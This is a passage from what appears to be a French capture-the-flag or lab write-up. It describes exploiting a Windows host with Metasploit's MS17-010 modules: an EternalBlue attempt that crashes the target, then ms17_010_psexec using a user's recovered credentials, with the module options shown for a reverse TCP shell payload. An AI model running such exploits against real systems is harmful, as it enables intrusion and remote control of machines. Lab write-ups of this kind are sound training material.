 ```plain
[*] Exploit completed, but no session was created.
```

Ici on voit que l'exploitation semble bien partir mais fait finalement crasher la machine (BSOD, la machine ne répond plus au ping).  

Epsilon
-------

Un autre exploit est disponible dans le framework Metasploit qui s'appelle *ms17\_010\_psexec*. Cet exploit a besoin d'accéder à un *named pipe* et *Metasploit* va en tenter différents pour l'exploitation (*netlogon*, *lsarpc*, *samr*, *browser*, etc).  

L'exploit échoue faute de trouver ou accéder à l'un de ces pipes. On peut alors utiliser les identifiants de *Russel* pour accéder aux pipes et permettre l'exploitation qui a réussie avec un payload assez basique.  

```plain
msf5 exploit(windows/smb/ms17_010_psexec) > show options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   ----                  ---------------                                                 --------  -----------
   DBGTRACE              false                                                           yes       Show extra debug trace info
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   RHOSTS                10.1.1.15                                                       yes       The target address range or CIDR identifier
   RPORT                 445                                                             yes       The Target port
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   SERVICE_NAME                                                                          no        The service name
   SHARE                 C$                                                              yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   SMBPass               little5                                                         no        The password for the specified username
   SMBUser               russel                                                          no        The username to authenticate as

Payload options (windows/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     443              yes       The listen port

Exploit target:

   Id  Name
   --  ----
```